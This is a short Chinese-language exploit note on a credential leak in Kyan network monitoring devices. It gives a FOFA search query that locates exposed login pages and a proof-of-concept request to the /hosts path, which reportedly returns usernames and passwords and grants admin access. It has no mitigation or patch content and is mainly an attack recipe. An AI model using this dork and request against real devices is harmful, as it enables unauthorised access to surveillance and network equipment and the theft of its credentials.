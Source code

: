# Kyan 网络监控设备 hosts 账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

<a-checkbox checked>Kyan</a-checkbox></br>

## FOFA

<a-checkbox checked>title="platform - Login"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/ky-1.png)



POC

```plain
http://xxx.xxx.xxx.xxx/hosts
```



![img](../../../.vuepress/public/img/ky-2.png)



成功获得账号密码